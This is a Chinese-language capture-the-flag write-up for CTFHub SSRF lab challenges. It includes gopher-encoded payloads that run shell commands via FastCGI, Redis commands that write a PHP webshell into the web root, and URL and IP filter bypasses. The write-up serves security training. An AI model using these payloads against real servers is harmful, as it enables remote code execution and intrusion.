 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-Writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup
  - ctfhub
  - ssrf

meta:



comment: false
---
```

## SSRF
  ![ssrf](/assets/img/ctf/ssrf.png)
  ### 内网访问
    直接构造访问请求,获取flag
    ```url
    /?url=127.0.0.1/flag.php
    ```
  ### 伪协议读取文件
    根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
    ![file](/assets/img/ctf/file.png)
  ### 端口扫描
    提示端口范围8000到9000
    ```url
    /?url=127.0.0.1:8000
    ```
    使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
  ### POST请求  
    访问/?url=127.0.0.1/flag.ph,返回页面  
    ![post1](/assets/img/ctf/post1.png)  
    包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  
    ```
    <input type="submit" name="sbumit">
    ```   
    ![post3](/assets/img/ctf/post3.png)  
    在页面上提交key，页面返回"Just View From 127.0.0.1"  
    ![post5](/assets/img/ctf/post5.png)  
    可见需要通过SSRF提交请求，构造POST请求
    ```
  POST /flag.php HTTP/1.1
  Host: 127.0.0.1:80
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 36

  key=99cb8729f8a7ba5dcaa367dc092c2f2c
    ```
    因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
    ```
    POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
    ```
    使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
    ```url
    gopher://IP:port/_{TCP/IP数据流}
    ```
    得到flag   
    ![post4](/assets/img/ctf/post4.png)
  ### 文件上传
  使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
    ```php html
    <?php
    error_reporting(0);
    if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
        echo "Just View From 127.0.0.1";
        return;
    }
    if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
        echo getenv("CTFHUB");
        exit;
    }
    ?>
    Upload Webshell
    <form action="/flag.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file">
    </form>
    ```

  访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
  ![upload1](/assets/img/ctf/upload1.png)  
  提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
  ![upload2](/assets/img/ctf/upload2.png)  
  对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

  ```
  POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
  ```
  使用gopher发送请求，得到flag  
  ![upload3](/assets/img/ctf/upload3.png)
  ### FastCGI协议
  [fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
  [gopher payload工具](https://github.com/tarunkant/Gopherus)  
  使用gopherus工具生成payload，运行命令`ls /`  
  ![fastcgi1](/assets/img/ctf/fastcgi1.png)   
  进行url编码后得到提交payload  
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```
  发送请求，获取`/`下目录情况,发现flag文件  
  ![fastcgi2](/assets/img/ctf/fastcgi2.png)    
  使用gopherus工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`   
  ![fastcgi3](/assets/img/ctf/fastcgi3.png)   
  进行url编码后得到提交payload    
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_14e0ba551d369f7992793e0b62395dc5%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```  
  发送请求，获得flag  
  ![fastcgi4](/assets/img/ctf/fastcgi4.png)

  ### Redis协议
  [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)  
  redis写shell命令如下
  ```shell
  flushall
  set 1 '<?php eval($_GET["feng"]);?>'
  config set dir /var/www/html
  config set dbfilename feng.php
  save
  ```
  使用gopherus工具生成redis攻击payload  
  ![redis1](/assets/img/ctf/redis1.png)  
  进行url编码得到请求payload
  ```
  gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
  ```
  请求后生成一句话shell.php文件，利用参数cmd，构造请求`/shell.php?cmd=ls%20/`  
  ![redis2](/assets/img/ctf/redis2.png)  
  获取flag文件，再构造请求`/shell.php?cmd=cat%20/flag_1d41ab57dcc1507d5d99e103cdca52da`,获得flag  
  ![redis3](/assets/img/ctf/redis3.png)  
  ### URL Bypasss
    访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
    ```url
    /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
    ```
  ### 数字IP Bypass
  题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
    - 方法一：  
    使用localhost代替127.0.0.1,构造请求url如下，获取flag
    ```url
    /?url=http://localhost/flag.php
    ```
    - 方法二:  
    将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
    ```url
    /?url=http://0x7F000001/flag.php
    ```  

  ### 302跳转 Bypass
  题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
  ![短链接访问](/assets/img/ctf/302.png)
  ### DNS重绑定
  [DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)  
  使用file://协议查看flag.php查看代码发现过滤了`/127|172|10|192/`开头，可以用16进制方式绕过，但是考虑到题目要求使用DNS重绑定  
  使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)获取域名  
  ![dns1](/assets/img/ctf/dns1.png)  
  访问或取flag  
  ![dns2](/assets/img/ctf/dns2.png)
